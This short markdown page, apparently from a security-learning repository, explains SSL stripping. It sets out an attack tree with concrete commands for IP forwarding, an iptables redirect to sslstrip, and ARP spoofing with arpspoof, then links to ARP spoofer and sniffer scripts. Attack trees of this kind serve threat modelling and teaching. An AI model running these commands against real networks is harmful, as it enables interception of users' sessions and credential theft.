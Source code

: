 # SSL Stripping

SSL stripping downgrades a HTTPS connection to HTTP by intercepting the TLS authentication sent from the application to the user. The adversary sends an unencrypted version of the application’s site to the user while maintaining the secured session with the application. The user’s session is visible to the adversary.

## Attack tree

```text
1 Strip SSL (AND)
    1.1 Install SSLStrip (AND)
    1.2 Configure attack machine for IP forwarding (echo 1 > /proc/sys/net/ipv4/ip_forward or sysctl -w net.ipv4.ip_forward=1) (AND)
    1.3 Route all HTTP traffic to SSLStrip (iptables –t nat –A PREROUTING -i eth0 –p tcp –dport 80 –j REDIRECT –to-port 54321) (AND)
    1.4 Run SSLStrip (sslstrip –l 54321)
2 Spoof ARP (AND)
    2.1 Install arpspoof (AND)
    2.2 Configure ARP spoofing (arpspoof –i eth0 –t <targetIP> <gatewayIP>)
3 Sniff traffic 
```

## Scripts
* [simple ARP spoofer](https://github.com/tymyrddin/ymrir/tree/master/arp_spoofer)
* [simple packet sniffer](https://github.com/tymyrddin/ymrir/tree/master/packet_sniffer)
